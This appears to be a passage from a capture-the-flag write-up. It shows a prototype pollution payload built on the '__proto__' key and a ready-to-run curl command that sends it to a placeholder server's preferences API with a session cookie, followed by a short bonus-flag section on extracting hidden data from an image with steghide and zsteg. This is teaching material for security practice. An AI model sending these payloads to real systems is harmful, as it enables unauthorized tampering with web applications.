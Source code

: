 To emulate this, we can send a curl request to the server using this data:
```
{
 "__proto__": {
 "polluted": true
 }
}
```
Example command:
```
curl -X POST "https://SERVER_IP/api/v1/user/preferences" \ -H "Content-Type: application/json" \ -H "Cookie: session=YOUR_SESSION_COOKIE" \ -d "{\"normal_key\": \"normal_value\", \"__proto__\": {\"polluted\": true}}"
```

<img src="./imagedata/Picture40.png"> 

> [!NOTE]
> In the above request, replace SERVER\_IP with the website IP address & YOUR\_SESSION\_COOKIE with your session token. This can be found using inspect element.

<hr>

## TASK 2: BONUS FLAGS

### Image Steganography
Data is hidden within image files using LSB or metadata techniques. Tools like zsteg extract such hidden data.
Logging into user `Unknown` gives us an image in the notes

<img src="./imagedata/Picture41.png"> 

We can download this image and try to run text extraction techniques on it such as steghide, zsteg, etc.
